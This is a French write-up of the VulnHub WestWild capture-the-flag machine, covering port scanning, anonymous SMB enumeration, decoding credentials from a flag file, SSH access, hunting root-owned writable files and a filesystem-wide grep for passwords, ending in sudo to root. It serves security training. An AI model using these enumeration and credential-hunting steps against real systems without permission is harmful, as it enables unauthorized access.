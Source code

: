 ```yaml
---
title: "Solution du CTF WestWild de VulnHub"
tags: [CTF,VulnHub]
---
```


[WestWild](https://vulnhub.com/entry/westwild-11,338/) est un CTF simple créé par *Hashim Alsharef* et disponible sur *VulnHub* depuis juillet 2019.

## Surfer

On a ici des ports classiques. Le port 80 a juste un message *Follow the wave*...

```
Nmap scan report for 192.168.56.211
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Je me dirige donc sur SMB et bingo, il y a un partage nommé `wave` :

```console
$ smbclient -U "" -N -L //192.168.56.211

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        wave            Disk      WaveDoor
        IPC$            IPC       IPC Service (WestWild server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
$ smbclient -U "" -N //192.168.56.211/wave
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 30 07:18:56 2019
  ..                                  D        0  Fri Aug  2 01:02:20 2019
  FLAG1.txt                           N       93  Tue Jul 30 04:31:05 2019
  message_from_aveng.txt              N      115  Tue Jul 30 07:21:48 2019

                1781464 blocks of size 1024. 270356 blocks available
```

Le message en question est le suivant :

> Dear Wave,
> 
> Am Sorry but i was lost my password,
> and i believe that you can reset it for me.
> Thank You 
> Aveng

Le flag contient une longue chaine base64 qui s'avère correspondre à des identifiants :

```console
$ cat FLAG1.txt | base64 -d
Flag1{Welcome_T0_THE-W3ST-W1LD-B0rder}
user:wavex
password:door+open
```

## Côte ouest

Les identifiants permettent un accès SSH.

En fouillant les fichiers et dossiers appartenant à root et que je peux modifier j'en trouve un nommé après le CTF :

```console
wavex@WestWild:/$ find / -user root -writable -ls 2> /dev/null | grep -v /dev | grep -v /proc
--- snip ---
  7490    0 -rw-rw-rw-   1 root     root            0 May 21 22:23 /sys/kernel/security/apparmor/.access
 69633    4 drwxrwxrwx   2 root     root         4096 Jul 30  2019 /usr/share/av/westsidesecret
 54395    4 drwx-wx-wt   3 root     root         4096 Jul 30  2019 /var/lib/php5
--- snip ---
wavex@WestWild:/$ ls -al /usr/share/av/westsidesecret
total 12K
drwxrwxrwx 2 root  root  4.0K Jul 30  2019 .
drwxr-xr-x 3 root  root  4.0K Jul 30  2019 ..
-rwxrwxrwx 1 wavex wavex  101 Jul 30  2019 ififoregt.sh
wavex@WestWild:/$ cat /usr/share/av/westsidesecret/ififoregt.sh 
 #!/bin/bash 
 figlet "if i foregt so this my way"
 echo "user:aveng"
 echo "password:kaizen+80"
```

Les identifiants permettant de se connecter sur le compte `aveng` et de passer `root` via `sudo`, l'utilisateur étant administrateur.

```console
aveng@WestWild:~$ sudo -l
[sudo] password for aveng: 
Matching Defaults entries for aveng on WestWild:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aveng may run the following commands on WestWild:
    (ALL : ALL) ALL
aveng@WestWild:~$ sudo su
root@WestWild:/home/aveng# cd /root
root@WestWild:~# ls
FLAG2.txt
root@WestWild:~# cat FLAG2.txt
Flag2{Weeeeeeeeeeeellco0o0om_T0_WestWild}

Great! take a screenshot and Share it with me in twitter @HashimAlshareff
```

Alternativement on pouvait effectuer une recherche sur le mot `password` dans tous les fichiers texte du système :

```console
wavex@WestWild:~$ grep -l -r --include "*.txt" password / 2> /dev/null 
/usr/share/vim/vim74/doc/version7.txt
/usr/share/vim/vim74/doc/usr_23.txt
/usr/share/vim/vim74/doc/pi_netrw.txt
/usr/share/vim/vim74/doc/netbeans.txt
/usr/share/vim/vim74/doc/version6.txt
/usr/share/vim/vim74/doc/if_cscop.txt
/usr/share/vim/vim74/doc/todo.txt
/usr/share/vim/vim74/doc/os_vms.txt
/usr/share/vim/vim74/doc/starting.txt
/usr/share/doc/openssl/HOWTO/keys.txt
/usr/share/mysql/errmsg-utf8.txt
/home/wavex/wave/message_from_aveng.txt
```
